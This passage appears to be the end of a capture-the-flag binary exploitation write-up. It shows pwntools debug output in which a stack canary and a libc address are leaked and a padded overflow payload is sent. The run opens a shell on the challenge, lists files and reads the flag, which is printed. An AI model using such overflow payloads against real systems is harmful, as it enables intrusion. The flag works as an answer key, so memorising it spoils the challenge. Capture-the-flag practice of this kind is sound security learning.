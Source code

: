```console
    00000000  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
    00000280  20 20 20 20  20 20 20 20  20 20 20 20  34 30 33 31  │    │    │    │4031│
    00000290  65 30 7c 45  4f 46 38 30  32 61 65 64  39 33 37 35  │e0|E│OF80│2aed│9375│
    000002a0  63 34 64 66  30 30 50 b4  3e 6e aa 7f  41 41 41 41  │c4df│00P·│>n··│AAAA│
    000002b0  41 41 41 41  41 e0 33 40  59 4f 55 20  4f 4e 4c 59  │AAAA│A·3@│YOU │ONLY│
    000002c0  20 47 45 54  20 4f 4e 45  20 43 48 41  4e 43 45 20  │ GET│ ONE│ CHA│NCE │
    000002d0  53 4f 2e 2e  2e 2e 0a 7c  20 f0 9f 91  8a 20 50 75  │SO..│..·|│ ···│· Pu│
    000002e0  6e 63 68 20  68 61 72 64  65 72 20 f0  9f 91 8a 20  │nch │hard│er ·│··· │
    000002f0  7c 0a                                               │|·│
    000002f2
[*] Canary: 0x802aed9375c4df00
[*] Puts libc address: 0x7faa6e3eb450
[*] Base libc address: 0x7faa6e367000
[DEBUG] Sent 0x61 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  00 df c4 75  93 ed 2a 80  │AAAA│AAAA│···u│··*·│
    00000050  00 00 00 00  00 00 00 00  2e ab 44 6e  aa 7f 00 00  │····│····│.·Dn│····│
    00000060  0a                                                  │·│
    00000061
[*] Switching to interactive mode
AAAAAAA�3@YOU ONLY GET ONE CHANCE SO....
| 👊 Punch harder 👊 |
[DEBUG] Received 0x48 bytes:
    'A' * 0x48
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$ ls[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0xf bytes:
    'chall\n'
    'flag.txt\n'
chall
flag.txt
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    'cat flag.txt\n'
[DEBUG] Received 0x2d bytes:
    'GLUG{0ne_5t3p_On3_Punch_On3_r0und_4t_4_t1m3}\n'
GLUG{0ne_5t3p_On3_Punch_On3_r0und_4t_4_t1m3}
```

The flag is: `GLUG{0ne_5t3p_On3_Punch_On3_r0und_4t_4_t1m3}`


















